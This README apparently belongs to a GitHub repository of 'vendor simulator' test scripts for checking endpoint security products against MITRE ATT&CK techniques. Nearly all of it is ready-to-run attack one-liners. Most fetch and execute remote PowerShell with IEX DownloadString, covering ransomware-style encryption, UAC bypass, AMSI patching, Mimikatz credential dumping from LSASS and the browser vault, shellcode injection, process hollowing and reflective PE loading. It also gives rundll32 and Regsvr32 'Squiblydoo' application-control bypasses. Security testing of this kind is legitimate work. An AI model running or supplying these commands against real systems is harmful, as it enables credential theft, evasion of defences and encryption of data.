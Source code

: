# Vendor Simulator Test Scripts

I decided to create the following repository of scripts that can be executed on production environment.
Many customers are using different BAS products with the intention to validate existing EDR vendors.
BAS products can be expensive and hard to comprehend. They also operate within the concept of IOC in mind and mostly do not trigger attack events.

The scripts are created with a mission to validate the prevention capabilities of existing endpoint security solutions.
In most cases, i tried to focus on stealthy and advanced behaviour.

The scripts can be executed on production envirenmnet. 

Please note that many of the scripts will not run unless AMSI is bypassed - each scripts different component of an attack chain and have to be viewed as part of a bigger picture

## Ransomware techniques:
Adversaries may encrypt data on target systems or on large numbers of systems in a network to interrupt availability to system and network resources.
https://attack.mitre.org/techniques/T1486/

### Encryption  

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Test';`

### Decryption  

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Test';`

## User Account Control Bypass (UAC) 
Adversaries may bypass UAC mechanisms to elevate process privileges on system. Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation.
https://attack.mitre.org/techniques/T1548/002/

### 1. FodHelper

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-UAC1.ps1"); Invoke-FodHelper;`

### 2. ComputerDefaults

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-UAC2.ps1"); Invoke-ComputerDefaults;`

## Antimalware Scan Interface (AMSI) 
Adversaries may modify and/or disable security tools to avoid possible detection of their malware/tools and activities.
Patching Antimalware Scan Interface (AMSI) becomes part of almost every attack with intention to tamper visibility into script execution

https://attack.mitre.org/techniques/T1562/001/

### 1. AmsiScanBuffer

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-AMSI1.ps1"); Invoke-AmsiBypass1;`

### 2. DllCanUnloadNowAddress (AmsiScanBuffer) Evasive
A more evasive variant that also identifies AmsiScanBuffer function through a method called egg hunting

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-AMSI2.ps1"); Invoke-bypass2;`


## Credentials Theft
Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system,depending on the operating system or application holding the credentials. There are also specific applications that store passwords to make it easier for users manage and maintain. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.
https://attack.mitre.org/techniques/T1555/

### 1. Lsass logon passwords

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -DumpCreds;`

### 2. Browser Vault credential theft

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "vault::list";`

## Injection
Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process.

https://attack.mitre.org/techniques/T1055/

### 1. Shellcode Entry Injection
Injection of shellcode into the entry of a legitimate spawn process
In this example we will inject shellcode into notepad that spawns calculator

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-ShellcodeInjection1.ps1"); Invoke-Shellcode1;`

### 2. Hollowing
Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. 
Process hollowing is a "living-off-the-land" method of executing arbitrary code in the address space of a separate live process. In this example we will hollow legitimate windows msbuild 64 bit process with Mimikatz process 

https://attack.mitre.org/techniques/T1055/012/

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-Hollowing64.ps1"); Invoke-Hollow64;`

### 3. Reflective PE Injection
In this example we will reflectively load a simple MsgBox dll within a remote process (the dll is 64bit), 
Reflective loading allows to load a full executable in a legitimate application while bypassing image load monitoring
This also allows to load executable that is not on the disk. We will use the known PowerSploit PE injection.

https://attack.mitre.org/techniques/T1620/

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-ReflectivePEInjection.ps1"); Invoke-ReflectivePEInjection -ProcName explorer;`

## Allowlist Bypass (formerly Whitelist bypass)
"Living-off-the-land" techniques that can be used to bypass Application Whitelisting Protection, usually maintain stealthiness and evasion by abusing inherent architectural weakness of the operating system.

### Rundll32 RunHTMLApplication 

Adversaries abuse Rundll32 to execute JavaScript and VBScript codes without downloading scripts.
Due to architectural weakness within the rundll32 loading process, rundll32 can be misused to not only load DLLs, but also to execute a direct Javascript or VBScript code.

**note that this command line is executed from a command-prompt**

https://attack.mitre.org/techniques/T1218/011/

`CMD> rundll32.exe vbscript:"\..\\mshtml, RunHTMLApplication "+Close(CreateObject("WScript.Shell").Run("calc"))`

### Regsvr32 "Squiblydoo" 
 Regsvr32.exe (Microsoft signed binary) can be used to specifically bypass application control using functionality to load COM scriptlets to execute DLLs under user permissions. Since Regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web Server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. This variation of the technique  is often referred to as "Squiblydoo" attack and has been used in campaigns targeting governments.

https://attack.mitre.org/techniques/T1218/010/

`PS> regsvr32.exe /u /s /i:https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/calc.txt scrobj.dll`

